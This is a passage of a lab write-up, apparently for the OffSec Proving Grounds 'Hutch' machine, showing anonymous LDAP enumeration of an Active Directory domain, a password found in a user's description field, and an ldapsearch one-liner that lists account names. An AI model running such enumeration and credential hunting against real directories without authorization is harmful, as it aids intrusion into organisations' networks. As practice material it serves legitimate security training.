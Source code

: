 ```bash
badPasswordTime: 133630748499810721
lastLogoff: 0
lastLogon: 0
pwdLastSet: 0
primaryGroupID: 514
objectSid:: AQUAAAAAAAUVAAAARZojhOF3UxtpokGn9QEAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: Guest
sAMAccountType: 805306368
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=hutch,DC=offsec
isCriticalSystemObject: TRUE
dSCorePropagationData: 20201104053513.0Z
dSCorePropagationData: 20201104052623.0Z
dSCorePropagationData: 16010101000417.0Z

# krbtgt, Users, hutch.offsec
dn: CN=krbtgt,CN=Users,DC=hutch,DC=offsec

...
...
```
{: .nolineno}

I got some sorting done from ldap result and turns out I have a password given in <mark style="background: #D2B3FFA6;">description</mark> key value 🔻

![Image](Pasted%20image%2020240617110347.png)

That turns out to be a password of a use that that was mentioned into the description value , Now lets collect some usernames also and for that I need to sort this ldap result on the basis of <mark style="background: #FFB86CA6;">sAMAccountName</mark> 🔻

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Practice/Hutch]
└─$ ldapsearch -x -b 'DC=hutch,DC=offsec' -H ldap://192.168.182.122 | grep sAMAccountName | awk '{print $2}'
Guest
Domain
Cert
Domain
Domain
Group
RAS
Allowed
Denied
Enterprise
Cloneable
Protected
DnsAdmins
DnsUpdateProxy
rplacidi
opatry
ltaunton
acostello
jsparwell
oknee
jmckendry
avictoria
jfrarey
eaburrow
cluddy
agitthouse
fmcsorley
```